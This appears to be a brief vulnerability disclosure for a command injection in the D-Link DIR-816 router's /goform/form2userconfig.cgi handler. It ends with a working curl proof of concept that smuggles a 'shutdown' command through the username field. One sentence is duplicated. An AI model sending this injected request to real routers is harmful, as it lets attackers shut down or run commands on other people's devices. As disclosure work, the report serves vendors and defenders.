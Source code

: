 # report

##### Describe

​	I found some vulnerabilities in the dir-816 750m11ac wireless router ,**Firmware version is**  DIR816_A1_FW101CNB04

​	The HTTP request parameter is used in the handler function of  /goform/form2userconfig.cgi route, which can construct the user name string to delete the user function. This can lead to command injection through shell metacharacters.

​	If the user can configure the router, it may cause unconditional command execution If the user can configure the router, it may cause unconditional command execution.

漏洞厂商已经承认https://supportannouncement.us.dlink.com/announcement/publication.aspx?name=SAP10240
##### POC&&EXP


```
curl -i -X POST http://192.168.33.9/goform/form2userconfig.cgi  -d "username=Admin';shutdown;'&oldpass=123&newpass=123&confpass=123&deluser=Delete&select=s0&hiddenpass=&submit.htm%3Fuserconfig.htm=Send"
```
Now it will shutdown
